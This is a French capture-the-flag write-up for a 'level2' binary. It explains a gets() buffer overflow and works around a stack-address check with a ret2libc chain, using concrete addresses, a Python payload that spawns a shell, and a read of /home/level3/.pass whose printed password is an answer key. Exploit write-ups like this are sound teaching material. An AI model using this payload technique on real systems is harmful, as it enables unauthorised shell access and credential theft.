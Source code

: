 En utilisant disass de GDB on voit l'utilisation de la fonction p()
En allant voir la fonction p() on remarque l'utilisation de gets ( qui va nous permettre d'utiliser un buffer overflow ). On pourrait écrire notre propre shellcode, le mettre dans la stack et faire pointer EIP dessus pour lancer un shell admin.
Mais apres gets() la fonction p va vérifier l'adresse de retour de la fonction avec 0xb0000000. 

0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
0x080484fb <+39>:    and    $0xb0000000,%eax
0x08048500 <+44>:    cmp    $0xb0000000,%eax

Si on fait pointer sur par exemple 0xbfffff01, on aurait comme comparaison ((0xbfffff01 & 0xb0000000) == 0xb0000000) 
0xbfffff01 = 10111111 11111111 11111111 00000001
AND
0xb0000000 = 10110000 00000000 00000000 00000000
En opération binaire 1 & 0 = 0 donc on obtient
0xb0000000 = 10110000 00000000 00000000 00000000

Nous ne pouvont donc pas overwrite EIP avec une adresse commencant par 0xb, ce qui est le cas de toutes les adresses de la stack. 

En revanche on peut utiliser un ret2libc ce qui va nous permettre de bypass la vérification de notre eip et donc de quand même exécuter notre command pour lancer le shell.

Un ret2libc se forme comme ceci:

"notre buffer size max" + "l'adresse du return de la fonction p" + "l'adresse de la fonction system" + "l'adresse de la fonction exit ( qui sert de fonction de retour pour system )" + " notre argument pour la fonction system donc l'adresse de la string /bin/sh"

Toutes ces informations sont disponibles dans le système en dehors de l'exécutable, et avec l'Address Space Layout Randomization (ASLR) désactivé, on peut accéder à leur adresse mémoire via gdb. Il suffit de mettre un breakpoint dans le programme, le run puis d'utiliser les commandes suivantes:

`print &system` --> 0xb7e6b060 (adresse de system()) 
`print &exit`   --> 0xb7e5ebe0 (adresse de exit())
`disass p`     --> 0x0804853e (call assembly de ret)
`find &system, +9999999, "/bin/sh"` --> 0xb7f8cc58 (adresse de la string "/bin/sh") 

Il nous manque que l'offset afin de savoir quel taille fait notre buffer.
j'utilise un generateur de pattern pour faciliter la tache
(wiremask.eu   buffer overflow pattern generator)

La taille du buffer est donc de 80.

Nous pouvons donc maintenant faire notre input ( attention au little endian )
`python -c "print('\x90'*80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')"`

On ajoute juste la commande cat pour que le shell reste actif.

`(python -c "print('\x90'*80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')" ; cat) | ./level2`

cat /home/level3/.pass

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
